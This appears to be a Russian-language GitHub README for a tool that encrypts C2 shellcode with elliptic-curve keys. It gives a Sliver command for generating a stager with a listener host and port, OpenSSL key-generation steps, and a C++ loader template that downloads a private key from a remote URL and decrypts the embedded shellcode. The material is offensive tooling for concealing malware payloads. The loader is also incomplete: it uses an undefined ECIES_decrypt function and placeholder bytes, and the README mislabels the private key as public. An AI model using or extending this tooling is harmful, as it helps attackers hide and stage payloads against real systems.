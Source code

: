 ## Этот код поможет вам зашифровать свой shellcode с использованием метода эллиптических кривых.

**Requirements**
g++

if not install

```bash
sudo apt install g++
```

openssl v3.1

sliver(or other c2)

libssl-dev 

if not install

```bash
sudo apt install libssl-dev
```

**Подготовка**
Сгенерируйте shellcode в формате **.bin.** Для этого вы можете использовать Bishop Fox Sliver в качестве C2, чтобы создать shellcode:

```bash
sliver> generate stager --lhost ip --lport 8443 --arch amd64 --format shellcode
```

При необходимости вы также можете использовать дополнительные параметры.

Сгенерируйте **.pem** ключи с помощью OpenSSL(prime256v1):

```bash
openssl ecparam -genkey -name prime256v1 -out new-ecc-private.pem
```
```bash
openssl ec -in new-ecc-private.pem -pubout -out new-ecc-public.pem
```

Клонируйте репозиторий с кодом для шифрования:


```bash
git clone github.com/wearetyomsmnv/ec_encoder_cpp
```

## Компиляция кода ##

Скомпилируйте код с помощью g++:

```bash
g++ ec_encoder.cpp -o encrypt_shellcode -lcrypto
```

## Запуск шифрования ##

**Запустите программу для шифрования:**

```bash
./encrypt_shellcode shellcode.bin new-ecc-private.pem new-ecc-public.pem
```

Где:

**shellcode.bin** - это файл с shellcode, полученный из Sliver (имя может отличаться).

**new-ecc-private.pem** - это открытый ключ.

**new-ecc-public.pem** - это открытый ключ.

## Как использовать это в реальном проекте ##

```c++
#include <iostream>
#include <openssl/evp.h>
#include <openssl/ec.h>
#include <openssl/err.h>
#include <openssl/pem.h>
#include <openssl/x509.h>
#include <curl/curl.h>

// Адрес сервера, предоставляющего .pem
static const char* SERVER_URL = "https://example.com/private-key.pem";

// Здесь должен быть ваш зашифрованный шеллкод
static const unsigned char encrypted_shellcode[] = {
    0xYY, 0xYY, 0xYY, ... // Зашифрованный шеллкод в формате байтов
};

// Функция обратного вызова для получения данных с сервера через libcurl
static size_t write_callback(void *contents, size_t size, size_t nmemb, void *userp) {
    std::string *buffer = reinterpret_cast<std::string*>(userp);
    size_t total_size = size * nmemb;
    buffer->append(static_cast<char*>(contents), total_size);
    return total_size;
}

int main() {
    OpenSSL_add_all_algorithms();
    ERR_load_crypto_strings();
    curl_global_init(CURL_GLOBAL_DEFAULT);

    // Инициализация сессии libcurl
    CURL *curl = curl_easy_init();
    if (!curl) {
        std::cerr << "Ошибка при инициализации сессии libcurl" << std::endl;
        return 1;
    }

    // Установка URL для запроса
    curl_easy_setopt(curl, CURLOPT_URL, SERVER_URL);

    // Создание буфера для хранения полученного PEM-файла
    std::string pem_data;

    // Установка функции обратного вызова для записи данных
    curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);
    curl_easy_setopt(curl, CURLOPT_WRITEDATA, &pem_data);

    // Выполнение запроса
    CURLcode res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        std::cerr << "Ошибка при выполнении запроса: " << curl_easy_strerror(res) << std::endl;
        curl_easy_cleanup(curl);
        return 1;
    }

    // Закрытие сессии libcurl
    curl_easy_cleanup(curl);

    // Преобразование PEM-данных в структуру ключа
    BIO *bio = BIO_new_mem_buf(pem_data.c_str(), -1);
    EC_KEY *key = PEM_read_bio_ECPrivateKey(bio, nullptr, nullptr, nullptr);
    if (!key) {
        std::cerr << "Ошибка при чтении приватного ключа из PEM-данных" << std::endl;
        BIO_free(bio);
        return 1;
    }
    BIO_free(bio);

    // Расшифрование с использованием приватного ключа
    size_t encrypted_len = sizeof(encrypted_shellcode);
    unsigned char decrypted[1024]; // Буфер для расшифрованных данных
    int decrypted_len = ECIES_decrypt(key, encrypted_shellcode, encrypted_len, decrypted, sizeof(decrypted));

    // Вывод расшифрованных данных
    std::cout << "Decrypted Data:" << std::endl;
    for (int i = 0; i < decrypted_len; ++i) {
        std::cout << std::hex << (int)decrypted[i];
    }
    std::cout << std::endl;

    // Освобождение ресурсов
    EC_KEY_free(key);

    // Очистка библиотеки OpenSSL
    ERR_free_strings();
    curl_global_cleanup();

    return 0;
}


```
